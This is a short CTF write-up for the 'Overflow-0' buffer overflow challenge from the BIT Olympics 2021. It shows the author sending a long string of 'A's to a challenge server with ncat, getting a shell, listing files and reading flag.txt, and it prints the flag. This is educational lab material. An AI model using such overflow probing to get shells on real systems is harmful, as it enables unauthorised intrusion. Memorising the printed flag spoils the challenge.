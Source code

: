 [< Back to All CTFs](https://github.com/KrisLloyd/CTF#ctf-solves)

[< Back to BIT Olympics CTF](https://github.com/KrisLloyd/CTF#bit-olymipcs-march-2021)
***

# Overflow-0

![Overflow-0](Overflow0.PNG)

### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
